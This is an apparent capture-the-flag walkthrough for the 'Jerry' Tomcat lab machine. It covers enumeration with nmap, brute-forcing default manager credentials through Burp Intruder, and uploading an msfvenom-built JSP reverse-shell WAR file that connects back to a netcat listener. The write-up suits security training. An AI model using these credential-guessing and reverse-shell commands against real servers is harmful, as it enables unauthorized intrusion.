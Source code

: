 # Jerry

## 1. Overview

### 1.1. Attacks

* Default Credential

### 1.2. Tools used

**Enumeration** &rarr; `nmap`.

**Exploitation** &rarr; `Netcat`, `msfvenom`,`BurpSuite`.

## 2. Walkthrough

### 2.1. Enumeration

#### 2.1.1. nmap

##### 2.1.1.1. Ports

![Jerry Ports/Hosts](_v_images/20201013114035670_8751.png)

![Jerry Ports Tomcat Version](_v_images/20201013114155479_9333.png)

Looks like default webpage by having the server name and version in the title.

![Jerry Default Tomcat Page](_v_images/20201013115219681_14926.png)

This shouldn't be accessible from the external network and shouldn't be easily accessible to everyone in the internal one.

##### 2.1.1.2. Host Details

![Jerry Host Details](_v_images/20201013115352393_9780.png)

### 2.2. Exploitation

#### 2.2.1. Sources

[Apache Tomcat Default Credentials List](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown)

[Creating Metasploit Payloads](https://netsec.ws/?p=331)

#### 2.2.2. Burpsuite

Proxy the website and go to `Admin Manager`. Try random username and password.

![Send to Intruder and Repeater](_v_images/20201013120140578_27068.png)

We'll use a list with Tomcat default credentials. We can see the format required in Decoder, since it is encoded in Base64. If we decode it, we see that the format is `<user>:<pwd>`.

![Tomcat.exe](_v_images/20201013120633243_31415.png)

To transform these to Base64 we can use the following command:

```sh
for cred in $(cat tomcat.txt); do echo -n $cred | base64; done
```

![Intruder Payloads](_v_images/20201013121116476_639.png)

**Note:** unmark `URL-Encoding` at the bottom of the page.

![Jerry Intruder Attack](_v_images/20201014104647873_14257.png)

We got a successful credential! If we decode it we will know the username and password (`tomcat:s3cret`). Now we can get inside.

![WAR File Upload](_v_images/20201014105143224_31852.png)

There's even the option to upload a WAR file. We can probably get a shell from that.

We can research ways to generate a WAR file, for example:

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

And for the listener we can use `Netcat`:

```sh
nc -nvlp <Port>
```

And now we can upload the file. If it doesn't get a shell we can force it by clicking on the new "shell" file that appears in the webpage.

![Uploaded Shell Application](_v_images/20201014110239506_25458.png)

![Jerry Root Access](_v_images/20201014110337898_10282.png)